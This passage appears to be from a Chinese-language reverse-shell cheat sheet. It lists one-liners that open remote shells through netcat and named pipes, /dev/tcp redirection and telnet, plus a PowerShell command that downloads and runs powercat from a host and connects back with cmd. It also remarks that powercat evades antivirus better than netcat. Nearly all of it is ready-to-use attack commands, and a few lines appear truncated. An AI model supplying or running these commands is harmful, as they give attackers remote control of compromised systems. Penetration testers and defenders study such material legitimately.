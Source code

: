 ```
/bin/bash | nc [host] [port]
```

```
mknod backpipe p && nc [host] [port] 0<backpipe | /bin/bash 1>backpipe
```

```
nc  [host] [输入port]  |  /bin/bash  |  nc [host] [输出port]
```

```
rm -f /tmp/p; mknod /tmp/p p && nc [host] [port] 0/tmp/
```

当nc版本问题时：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [host] [port] >/tmp/f
```

## exec

```
exec 5<>/dev/tcp/[host]/[port];cat <&5 | while read line; do $line 2>&5 >&5; done
```

```bash
exec 2>&0 0<&196;exec 196<>/dev/tcp/[host]/[port]; bash <&196 >&196 2>&196
```

## powercat

[powercat](https://github.com/besimorhino/powercat)是netcat的powershell版本，功能免杀性都要比netcat好用的多。

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.9:8000/powercat.ps1');powercat -c 10.10.14.9 -p 4444 -e cmd"
```

## telnet

```
telnet [host] [输入port] | /bin/bash | telnet [host] [输出port]
```

```
rm -f /tmp/p; mknod /tmp/p p && telnet [host] [port] 0/tmp/p
```

nc不可用或者/dev/tcp不可用时:

```
mknod backpipe p && telnet [host] [port] 0<backpipe | /bin/bash 1>backpipe
```

## python
